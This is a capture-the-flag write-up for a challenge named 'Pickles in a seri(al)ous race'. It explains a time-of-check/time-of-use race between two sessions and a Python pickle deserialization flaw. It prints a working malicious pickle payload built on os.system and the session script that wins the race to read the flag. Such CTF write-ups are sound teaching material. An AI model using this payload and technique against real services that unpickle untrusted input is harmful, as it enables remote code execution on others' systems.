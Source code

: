 # Challenge `Pickles in a seri(al)ous race` Writeup

- Vulnerability: 
  - Time-of-check Time-of-use / Race condition and Remote Code Execution
- Where:
  - `check_mode` function and `pickle.dump` function
- Impact:
  - allows remote code execution in the server

## Analyzing the server

This challenge consists in accessing a file inside the server running the script.
The script allows users to create users and create or read files. 
An important concept is that files can be created in either CLASSY or FREE mode and can only be read in the same mode, otherwise the file is deleted.
The CLASSY mode uses `pickle` to serialize and deserialize the files, while the FREE mode uses plain text to store the notes. 
The `pickle` library which is known to be vulnerable to remote code execution, [source](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). 

## Exploit

Since the `pickle.dump` function is exploitable, the next step is to create a malicious payload.
```python
class FlagGrabber:
    def __reduce__(self):
        cmd = ('cat /home/ctf/flag')
        return os.system, (cmd,)

pickled = pickle.dumps(FlagGrabber())
```
From the source cited above, we can see that the `__reduce__` function is called when the object is deserialized and leads to remote code execution.  
The problem is that the script doesn't serialize the user input but the `Note` object
```python
note = pickle.loads(note_content)
print(note)
(...)
note = Note(note_name, note_content)
with open(note_path, 'wb') as f:
    pickle.dump(note, f)
```
Therefore, the payload must be sent written to the file using the FREE_MODE.
To be able to write with FREE_MODE and later read with CLASSY_MODE, it's necessary to exploit a race condition in the verification of the user mode choice.
```python
if not check_mode(FREE_MODE):
    reset(FREE_MODE)
```
First create two sessions (`free` and `classy`) with the same user.
Then, in the `free` session, enter the FREE_MODE and in the `classy` enter the CLASSY_MODE.
```python
classy.recvuntil(b'Username: ')
classy.send(b'diogo\n')

free.recvuntil(b'Username: ')
free.send(b'diogo\n')

classy.recvuntil(b'>>> ')
classy.send(b'0\n')

free.recvuntil(b'>>> ')
free.send(b'1\n')
```
Since the `check_mode` is verified at the beginning, it's now possible to write the payload to a `FREE_MODE` file and then read it with the `CLASSY_MODE` without it being erased.
```python
free.recvuntil(b'note_name: ')
free.send(b'payload2\n')
free.recvuntil(b'note_content: ')
free.sendline(pickled)
free.sendline()
sleep(1)

classy.send(b'0\n')
classy.recvuntil(b'note_name: ')
classy.send(b'payload\n')
print(classy.recvuntil(b'}').decode("UTF-8"))
```
The sleep is necessary to give the server time to create the file.
This outputs the flag `SSof{Pickles_RCE_Th1s_was_an_easy_race}`


## Implementation

These code snippets and full implementation can be found [here](pickles_in_a_seri(al)ous_race.py).
